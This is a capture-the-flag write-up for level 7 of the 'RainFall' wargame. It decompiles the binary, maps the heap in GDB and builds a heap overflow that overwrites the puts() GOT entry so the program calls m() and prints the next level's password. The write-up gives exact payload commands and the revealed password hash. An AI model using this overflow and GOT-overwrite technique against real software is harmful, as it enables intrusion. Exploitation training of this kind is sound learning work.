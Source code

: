 ## LEVEL 7

This level is rather complicated, so i will use `Ghidra` to firstly translate the program in C.

```c
char c[68];

void
m (void) {
	time_t tVar1;

	tVar1 = time((time_t *)0);
	printf("%s - %d\n", c, tVar1);
	return;
}

int
main (int ac, char **av) {
	int		*s1;
	int		*s2;

	s1 = malloc(8);
	s1[0] = 1;
	s1[1] = malloc(8);
	s2 = malloc(8);
	s2[0] = 2;
	s2[1] = malloc(8);

	strcpy((char *)s1[1], av[1]);
	strcpy((char *)s2[1], av[2]);
	fgets(c, 68, fopen("/home/user/level8/.pass", "r"));
	puts("~~");
	return (0);
}
```

Now that we have a better compression of this program, we can understand what this code does ? Firstly we see a bunch of `malloc()`, so i will use `GDB` to see what happen in the memory.

```shell
level7@RainFall:~$ gdb -q level7
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
(gdb) b *0x080485ba
Breakpoint 1 at 0x80485ba
(gdb) b *0x0804859d
Breakpoint 2 at 0x804859d
(gdb) b *0x080485d3
Breakpoint 3 at 0x80485d3
(gdb) r $(python -c 'print("A"*8)') $(python -c 'print("B"*8)')
Starting program: /home/user/level7/level7 $(python -c 'print("A"*8)') $(python -c 'print("B"*8)')

Breakpoint 2, 0x0804859d in main ()
(gdb) x/32x $eax - 16
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
```

Perfect now that we have a better understanding of the memory, we know that the first `strcpy()` will write on the address `0x0804a018` and the second `strcpy()` will write on the address `0x0804a038`. So if we overflow the first `strcpy()` to change the address `0x0804a038` we can ask to `strcpy()` to write on the address we want.

We've seen previously that we `puts()` function use a GOT jump, so if we change the jump address with the function `m()` we can launch the function then `printf()` the stream with our flag.

But to create our payload, we need some informations.

---

#### Padding

The padding is the space between the address given to `strdup()` and our target address. In our case, this is the distance between `0x804a018` and `0x804a02c`.

`0x804a02c - 0x804a018 = 0x14 -> 20`

---

#### `puts()` jump address

```shell
(gdb) i func
All defined functions:

Non-debugging symbols:
[...]
0x08048400  puts
0x08048400  puts@plt
[...]
(gdb) disas 0x08048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

`puts()` jump address is : `0x8049928`

---

#### `m()` address

```shell
(gdb) i func
All defined functions:

Non-debugging symbols:
[...]
0x080484f4  m
[...]
```

`m()` address is : `0x080484f4`

---

### Payload

`python -c 'print "\x90" * 20 + "\x28\x99\x04\x08"' > /tmp/payload_1`

`python -c 'print "\xf4\x84\x04\x08"' > /tmp/payload_2`

We just have to set the payload as parameter to get the flag.

```shell
level7@RainFall:~$ ./level7 $(cat /tmp/payload_1) $(cat /tmp/payload_2)
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1657910055
```

